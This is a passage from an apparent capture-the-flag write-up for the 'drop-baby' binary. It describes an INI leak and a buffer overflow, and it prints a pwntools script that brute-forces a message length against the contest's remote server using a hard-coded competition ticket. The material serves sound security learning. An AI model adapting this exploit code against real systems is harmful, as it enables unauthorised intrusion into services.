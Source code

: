 * Command `b1` prints the INI file that the remote has. However, we need to guess the correct value of the key `B1_MSG_LEN` in order to print it. This is easily brute-forcable
* Spoiler alert: After leaking the server INI, the command `b2` reads `sz=ini.get("B2_MSG_LEN")` bytes into a buffer of `100` bytes. This `sz` is configured to be `300` bytes in the remote.

I won't waste any more time for reversing.

## Pwning

Let's pwn the binary now. We have identified the buffer overflow function. Let's write a script first that prints the `server.ini` file:

```python
from pwn import *
import sys
import os

context.binary = elfexe = ELF('./drop-baby')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target

gdbscript = ''

# Brute-force the B1_MSG_LEN
mydata = b''
while True:
    mydata += b'A'
    print(f"Attempting data len: {len(mydata)}")

    if args['REMOTE']:
        remote_server = 'drop.quals2023-kah5Aiv9.satellitesabove.me'
        remote_port = 5300    
        io = remote(remote_server, remote_port)
        io.recvline() # Ticket please:
        io.send(b'ticket{alpha542765whiskey4:GLnT34rPAupXSBMNiLWcgk0dLhUeF5gSSzxqnownNALObAoYzg8MHH0jle5Ttq7FXw}\n')
    else:
        os.environ['FLAG'] = 'hackasat{dummy-flag}'
        os.environ['TIMEOUT'] = '3600'
        io = start()
    io.recvline_endswith(b'Exploit me!')
    io.send(b'\xde\xad\xbe\xef') # sync prefix
    io.send(b'\xb1') # read_message
    payload = mydata + p32(crc.crc_32(mydata))
    io.send(payload)
    printed_data = io.recvall(timeout=2)
    if len(printed_data) > 0:
        print(printed_data.decode('ascii'))
        sys.exit(0)
    io.close()
```
